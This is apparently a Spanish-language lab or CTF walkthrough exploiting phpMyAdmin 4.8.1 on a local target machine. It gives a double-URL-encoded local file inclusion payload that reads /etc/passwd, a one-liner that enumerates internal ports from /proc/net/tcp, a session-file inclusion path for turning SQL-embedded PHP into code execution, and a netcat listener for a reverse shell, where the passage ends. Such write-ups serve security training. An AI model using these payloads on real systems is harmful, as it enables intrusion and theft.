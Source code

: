 * [phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion](https://www.exploit-db.com/exploits/44924)

![imagen](https://github.com/user-attachments/assets/d34079ab-96fc-4cf2-8616-38125daf58c7)

* [phpMyAdmin 4.8.1 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/50457)

![imagen](https://github.com/user-attachments/assets/71384abf-f93f-4102-b608-bc42fc977b01)

* [PhpMyAdmin 4.8.x Ejecución remota de código](https://unaaldia.hispasec.com/2018/06/vulnerabilidad-en-phpmyadmin-4-8-x-permite-ejecucion-remota-de-codigo.html)

El LFI reside en index.php, ya que según explican en la línea 61 contiene un include con un $_REQUEST['target'];, el código contiene varias medidas de seguridad para prevenir LFI, pero se proporciona un payload urlencodeado dos veces con %253f para evitar la validación. Quedaría algo así:

```
http://192.168.2.142/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../etc/passwd
```

Utilizando el payload porporcionado consigo visualizar el fichero de configuracion passwd del máquina victima

![imagen](https://github.com/user-attachments/assets/784d64fb-f195-48e3-aaf2-b6dfdb6ec524)

Una vez acontecido el LFI enumero puertos internos de la máquina a través de /proc/net/tcp para detectar aquellos que no he podido en el escaneo de nmap ya que no se encuentran expuestos.

![imagen](https://github.com/user-attachments/assets/72d141e8-f7c7-4664-ae52-66813206885d)

```bash
cat ports | awk '{print $2}' | grep -v local_address | cut -d : -f 2 | sort -u | while read port;do echo "Port -> $((0x$port))";done
Port -> 80
Port -> 2082
Port -> 3306
Port -> 59060
```

Para migrar el LFI a un RCE intento apuntar a /var/log/apache2/access.log y /var/log/auth.log, pero no tengo capacidad de lectura, por lo que no puedo envenenar los logs de Apache ni SSH, me centro en seguir los pasos del exploit, basicamente en el apartado de consultas SQL podemos incrustar código PHP, este de primeras no será interpretado, pero el problema resida en que en la sesion se almacena todo lo que ejecutamos, por ello a través del LFI es posible apuntar a la sesión y ejecutar el código PHP, la ruta a apuntar es la siguiente:

```
/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_
```

Inicio un listener con netcat para entablar la reverse shell por el puerto 4444

```bash
 nc -lvnp 4444
listening on [any] 4444 ...
```
